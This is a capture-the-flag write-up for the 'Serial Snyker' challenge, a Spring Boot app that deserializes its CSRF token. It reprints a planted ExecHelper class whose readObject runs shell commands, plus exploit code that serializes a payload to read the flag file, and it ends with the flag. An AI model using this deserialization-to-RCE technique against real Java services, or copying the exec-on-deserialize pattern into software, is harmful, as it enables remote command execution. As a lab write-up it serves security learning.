



# Serial Snyker

## Foothold

This challenge is a web one with given source code.
It's a Java application using SpringBoot framework and some homemade classes :



And here is the web page, a simple authentication form: 



We cannot find any database related code, but the interessing part is the CSRF token check:



Deserialize function are well-known to be vulnerable in many language :)

We also notice some unsed code with the classes Base64Helper and ExecHelper:

```java
package com.snykctf.serialsnyker;

import java.io.Serializable;
import java.util.Base64;

public class Base64Helper implements Serializable {
    private String base64;

    public Base64Helper(String base64) {
        this.base64 = base64;
    }

    public String decode() {
        return new String(Base64.getDecoder().decode(this.base64));
    }
}
```

```java
package com.snykctf.serialsnyker;

import java.io.*;
import java.util.Arrays;

public class ExecHelper implements Serializable {
    private Base64Helper[] command;
    private String output;

    public ExecHelper(Base64Helper[] command) throws IOException {
        this.command = command;
    }

    public void run() throws IOException {
        String[] command = new String[this.command.length];
        for (int i = 0; i < this.command.length; i++) {
            String str = this.command[i].decode();
            command[i] = str;
        }

        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        String result =  s.hasNext() ? s.next() : "";
        System.out.println("executing...");
        System.out.println(result);
        this.output = result;
        /*Process process = Runtime.getRuntime().exec(command);

        BufferedReader stdInput = new BufferedReader(new
                InputStreamReader(process.getInputStream()));

        BufferedReader stdError = new BufferedReader(new
                InputStreamReader(process.getErrorStream()));

        System.out.println("Command Output:\n");
        String s = null;
        while ((s = stdInput.readLine()) != null) {
            System.out.println(s);
        }*/
    }

    @Override
    public String toString() {
        return "ExecHelper{" +
                "command=" + Arrays.toString(command) +
                ", output='" + output + '\'' +
                '}';
    }

    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
}
```

## Exploit the backdoor :D

This exec helper is very nice and will allow us to execute some commands on the server :)

The ExecHelper constructor is wating for an array of Base64Helper object. So we can craft objects then fill an array and call the ExecHelper constructor. Once this done,
we can serialize the class and send it as base64 in the CSRF parameter at login time :)

Here is the main class, full code is in com directory

```java
package com.snykctf.serialsnyker;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class Main {
    public static void main(String[] args) {

        Base64Helper[] b = new Base64Helper[2];
        Base64Helper ob = new Base64Helper("Y2F0"); // cat
        Base64Helper ob1 = new Base64Helper("L2hvbWUvZmxhZy50eHQ="); // /home/flag.txt

        try {
            b[0] = ob;
            b[1] = ob1;
            ExecHelper vo1 = new ExecHelper(b);
            FileOutputStream fileOut = new FileOutputStream("/tmp/ValueObject.ser");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(vo1);
            out.close();
            fileOut.close();

        }
        catch (IOException e){
            System.out.println(e);
        }


    }
}
```


SNYK{09f30b0210c2c0fe55eea091a8f4b1d38cd10364af0544c5d7faa41cb4b49954}